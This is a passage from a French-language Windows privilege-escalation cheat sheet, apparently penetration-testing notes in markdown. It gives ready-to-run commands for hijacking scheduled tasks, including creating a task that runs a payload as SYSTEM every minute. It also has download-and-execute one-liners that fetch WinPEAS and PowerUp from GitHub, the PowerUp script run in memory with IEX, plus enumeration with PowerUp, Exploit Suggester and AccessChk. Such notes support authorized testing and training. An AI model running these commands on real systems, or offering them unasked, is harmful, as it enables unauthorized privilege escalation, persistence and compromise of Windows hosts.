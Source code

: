 ### Exploitation tâches planifiées
```batch
# Si tâche exécute script modifiable
echo "payload" > C:\path\to\vulnerable\script.bat

# Créer nouvelle tâche (si permissions)
schtasks /create /sc minute /mo 1 /tn "MyTask" /tr "C:\payload.exe" /ru SYSTEM
```

## 🔧 Outils d'Automatisation

### WinPEAS
```batch
# Téléchargement et exécution
powershell -c "iwr -uri 'https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASx64.exe' -outfile 'winPEAS.exe'"
winPEAS.exe

# Mode quiet (moins verbeux)
winPEAS.exe quiet

# Checks spécifiques
winPEAS.exe systeminfo userinfo
```

### PowerUp (PowerSploit)
```powershell
# Import et exécution
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1')

# Scan complet
Invoke-AllChecks

# Checks spécifiques
Get-UnquotedService
Get-ModifiableServiceFile
Get-ModifiableService
Get-ServiceUnquoted
```

### Windows Exploit Suggester
```batch
# Côté attaquant avec systeminfo.txt
python windows-exploit-suggester.py --database 2021-09-21-mssb.xls --systeminfo systeminfo.txt
```

### AccessChk (Sysinternals)
```batch
# Télécharger accesschk.exe
# Permissions services
accesschk.exe -uwcqv "Authenticated Users" *

# Permissions fichiers
accesschk.exe -w C:\Windows\System32\config

# Permissions registre
accesschk.exe -k HKLM\Software\Microsoft\Windows\CurrentVersion\Run
```
